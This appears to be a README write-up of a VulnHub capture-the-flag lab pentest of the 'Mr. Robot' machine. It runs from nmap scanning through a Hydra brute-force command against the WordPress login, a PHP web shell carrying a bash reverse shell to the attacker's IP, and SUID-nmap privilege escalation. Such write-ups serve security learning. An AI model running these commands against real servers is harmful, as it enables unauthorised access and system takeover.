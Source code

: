 # 🛡️ Operation: Mr. Robot Infiltration

**RootProwler Advanced Pentest | VulnHub | Full Chain: Web → Internal → Root**

---

## Overview
Welcome to the Operation: Mr. Robot Infiltration! This repository contains the documentation for the penetration testing conducted on the Mr. Robot vulnerable machine. The goal was to exploit and escalate privileges on a WordPress-based web server running on Apache, ultimately gaining root access and capturing flags.

---

## Table of Contents
- 📋 Project Overview
- ⚙️ Setup
- 🛠 Tools Used
- 🎯 Target Information
- 🔍 Steps to Complete the Pentest
  1. Reconnaissance
  2. Exploitation
  3. Privilege Escalation
  4. Flag Capture
- 🏁 Conclusion
- 📚 Lessons Learned
- 💡 Credits

---

## 📋 Project Overview
This repository outlines the process of conducting a black-box pentest on the Mr. Robot vulnerable machine. We perform reconnaissance, exploitation, privilege escalation, and ultimately capture flags from the system.

The steps in this project are broken down methodically to ensure you understand the process and can replicate or learn from this engagement.

---

## ⚙️ Setup
### Prerequisites
- Kali Linux (Attacker Machine)
- Mr. Robot VM (Target Machine)
- Network Configuration: Both the Kali and Mr. Robot VMs must be on the same network segment (use Bridged or Host-only adapter).

---

## 🛠 Tools Used
- **Nmap**: For reconnaissance and service enumeration.
- **Gobuster**: Directory/file enumeration tool.
- **Hydra**: Brute force tool for cracking weak credentials.
- **Netcat**: For reverse shell and connection back to the attacker.
- **PHP Reverse Shell**: Used for web shell exploitation.

---

## 🎯 Target Information
- **IP Address**: 192.168.254.133
- **Web Application**: WordPress running on Apache HTTPD
- **Open Ports**: 80 (HTTP)

---

## 🔍 Steps to Complete the Pentest

### 1. Reconnaissance
The first step involves gathering as much information as possible about the target.

**Nmap Scan:**
```bash
nmap -sS -A -p- 192.168.254.133
```
**Results:**
- Port 80: Apache HTTPD
- WordPress running on the target machine.

---

### 2. Exploitation
**WordPress Login Brute Force:**
Using Hydra to attempt brute force login on the WordPress page.
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.254.133 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:S=Dashboard"
```

**Web Shell Upload:**
Exploiting the 404.php file of the Twenty Fifteen WordPress Theme to upload a PHP reverse shell.
```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.254.135/4444 0>&1'");
?>
```
Once the file is uploaded and triggered, a reverse shell will connect back to the attacker.

---

### 3. Privilege Escalation
**From www-data to robot:**
- MD5 Hash found in `/home/robot/password.raw-md5` was cracked to reveal the password `robot1234`.

**From robot to root:**
- Searching for SUID binaries led to `nmap`, which had the SUID bit set.
- Privilege escalation through `nmap` allowed us to spawn a shell as root.

---

### 4. Flag Capture
**Captured Flags:**
- Flag1: `/home/robot/flag1.txt`
- Flag2: `/root/flag2.txt`
- Root Flag: `/root/root-flag.txt`

---

## 🏁 Conclusion
This pentesting engagement on Mr. Robot successfully captured all flags and escalated privileges from a web application vulnerability (WordPress) all the way to root access.

---

## 📚 Lessons Learned
- **Strong Authentication**: Always ensure strong passwords and implement two-factor authentication (2FA) to prevent brute-force attacks.
- **File Upload Security**: Properly validate and sanitize user inputs to avoid web shell uploads.
- **Privilege Escalation**: Always be on the lookout for SUID binaries or other misconfigurations that can lead to privilege escalation.

---

## 💡 Credits
- **Mr. Robot**: VulnHub (for providing the vulnerable machine)
- **PHP Reverse Shell**: PentestMonkey
- **Tools Used**: Nmap, Hydra, Netcat, Gobuster, etc.

